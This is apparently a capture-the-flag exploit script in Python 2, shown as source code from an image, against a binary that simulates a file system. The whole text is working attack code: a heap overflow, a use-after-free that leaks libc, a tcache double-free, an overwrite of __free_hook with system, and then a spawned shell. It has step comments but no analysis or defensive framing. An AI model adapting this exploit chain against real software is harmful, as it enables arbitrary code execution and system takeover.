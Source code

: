 ```python

# 1. big file -> directory
remove("tmp")
add_file("overflow", 0x10, "A" * 0x50 + '\x01' + 'hacked\n')

# 1.1. fill index 0x90
add_dir("d1")
change_dir("d1")
for i in xrange(0x59):
	add_file("pad", 0x10, "pad\n")
change_dir("..")
#0x5a

add_dir("d2")
change_dir("d2")
for i in xrange(0x90 - 4 - 0x5a - 2):
	add_file("pad", 0x10, "pad\n")
add_file("0x90", 0x10, "0x90\n")
change_dir("..")

# 2. cd into that directory
# 3. remove dir_files[1],
#	so LSB of address is cleared to 0,
#	which is another big file data
change_dir("hacked")
remove("0x90")
change_dir("..")

# 4. change it back to big file
remove("overflow")
add_file("overflow", 0x10, "A" * 0x50 + '\x02' + 'hacked\n')

# 5. free, cause UAF, then leak
remove("hacked")
libc_addr = u64(show_file("7") + '\x00\x00') - 0x3ebca0
print hex(libc_addr)

# 6. double free, poison 0x90 tcache
for i in xrange(7): # consume tcache
	add_file(str(i), 0x80, str(i))
add_file('8', 0x80, '8') #consume unsorted bin
remove('7')
remove('8') # double free

# 7. rewrite free hook
add_file("rewrite_fd", 0x80, \
	p64(libc_addr + e.symbols["__free_hook"]))
add_file("consume", 0x80, p64(0))
add_file("rewrite_free_hook", 0x80, \
	p64(libc_addr + e.symbols["system"]))

# 8. get shell
add_file("shell", 0x80, "/bin/sh")

sh.sendline('6')
sh.recvuntil("name: ")
sh.sendline("shell")
sh.interactive()
```

